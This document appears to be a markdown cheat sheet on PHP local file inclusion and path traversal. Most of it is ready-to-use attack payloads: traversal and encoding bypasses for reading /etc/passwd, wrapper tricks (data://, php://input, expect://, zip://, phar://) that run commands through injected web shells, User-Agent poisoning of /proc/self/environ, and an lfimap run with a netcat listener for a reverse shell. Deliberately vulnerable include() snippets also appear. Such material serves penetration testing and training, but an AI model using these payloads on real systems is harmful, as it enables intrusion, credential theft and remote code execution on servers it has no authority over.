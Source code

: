 # Local File Inclusion and Path Traversal  

LFI - Executing local server files with PHP 'include', 'include_once', 'require' or 'require_once' functions.  

### Path traversal  
Path traversal means traversing the file structure with '../' or '..\\' sequences in order to read files 'below' the web server file path. Path traversals can be only used to read files on a web server, without execution.

```php
<?php include($_GET['file']); ?>
```

`http://linux_server/site.php?file=/../../../../../../../../../etc/passwd`  
`http://windows_server/site.php?file=\..\..\..\..\..\..\..\..\..\Windows\System32\drivers\etc\hosts`  

### Path normalization
Path normalization is done implicitly within PHP. Multiple subsequent slashes, as well as './' and '/.' are automatically stripped. This can be used to bypass bad sanitization.    
```php
<?php
# Disable inclusion of files ending with 'passwd'
if(substr($_GET['file'], -6, 6) != "passwd"){
   include($_GET['file']);
}
?>
```
`http://server/site.php?file=badfolder../../../../../../../../../../../etc/passwd/.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../././././etc/././passwd/./.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../../..////etc/////passwd/.`  

### Sanitization bypass
`?file=existingfolder/../../../../../../../../etc/passwd`  
`?file=doesnotexist../../../../../../../../../../.././etc/.//.//passwd//.`  
`?file=.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`  
`?file=....//....//....//....//etc/passwd`   
`?file=..///////..////..//////etc/passwd`  
`?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`  
`?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  
`?file=%252e/%252e/%252e/%252e/%252e/etc/passwd`  

Unicode bypass  
NodeJS path handling libraries are internally stripping \xFF. By placing a Ｎ character (full width latin N) or (U+FF2E), since FF is stripped, what remains is 2E - url decoded '.' (dot)  
`?file=ＮＮ/ＮＮ/ＮＮ/ＮＮ/ＮＮ/etc/passwd`  
`?file=ＮＮ\ＮＮ\ＮＮ\ＮＮ\ＮＮ\Windows\System32\drivers\etc\hosts`  

### Nullbyte injection 
When '.php' is appended, it can be bypassed with nullbyte in php versions before 5.3.4, or if 'magic_quotes_gpc' is set to Off.  
 
```php
<?php include($_GET['file'] . ".php"); ?>
```
`http://server/site.php?file=../../../../../../../../etc/passwd%00`  
`http://server/site.php?file=../../../../../../../../etc/passwd%2500`  
`http://server/site.php?file=../../../../../../../../etc/passwd\0`   


### File wrapper
`http://server/site.php?parameter=file:///etc/passwd`  

### Filter wrapper
Filter wrapper can be used as a bypass method. Loading/Including php file will execute it, therefore source code won't be shown. With filter wrapper source code can be disclosed in a form of encoded string, which will need to be decoded.  
`http://server/site.php?file=php://filter/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/read=string.rot13/resource=/etc/passwd` 

### Data wrapper command execution
`http://server/site.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K&c=cat%20/etc/passwd`  

### Input wrapper command execution
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php shell_exec($_GET['cmd']); ?>"`    
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php passthru($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php echo system($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input" -d "<?php echo system('whoami'); ?>"`  

### Expect wrapper command execution
Very rare and by default not enabled.  
`http://server/site.php?file=expect://cat%20/etc/passwd`  

### Zip wrapper code execution
Zip wrapper can be used in order to gain code execution, with uploaded archive that has zipped malicious .php file inside it.    
`http://server/site.php?file=zip://uploads/shell.zip%23shell.php`      

### Phar wrapper code execution
Create malicious phar file with reverse shell or custom malicious code inside it - represented as 'mal.jpg'.  
```php
 <?php
    $p = new PharData(dirname(__FILE__).'/pharfile.zip',0,'pharfile2',Phar::ZIP);
    $x = file_get_contents('./reverse_shell.php');
    $p->addFromString('mal.jpg', $x);
  ?>
```
Compile phar with `php --define phar.readonly=0 create_path.php`  
`http://server/site.php?file=phar://pharfile.zip/mal.jpg`  

### /proc/self/environ code execution
If environ file can be included User-Agent string can be used in order to achieve rce. Make sure User-Agent is inside /proc/self/environ for this to work.       

`curl http://server/index.php?file=/proc/self/environ&cmd=id -H "User-Agent: <?php echo system($_GET['cmd']);?>"`


### Lfimap

[Lfimap](https://github.com/hansmach1ne/lfimap), local file inclusion discovery and exploitation tool.  
Automatically tests lfi WITH filter, data, input, expect and file wrappers and path truncation.

Test GET parameters  
`sudo python3 lfimap.py "http://server/index.php?page=PWN"`  

Test POST parameters   
`sudo python3 lfimap.py "http://server/index.php" -D "page=PWN"`  


Exploit vulnerable target automatically    
`sudo rlwrap nc -nvlp 99`  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -x --lhost <ip> --lport 99`
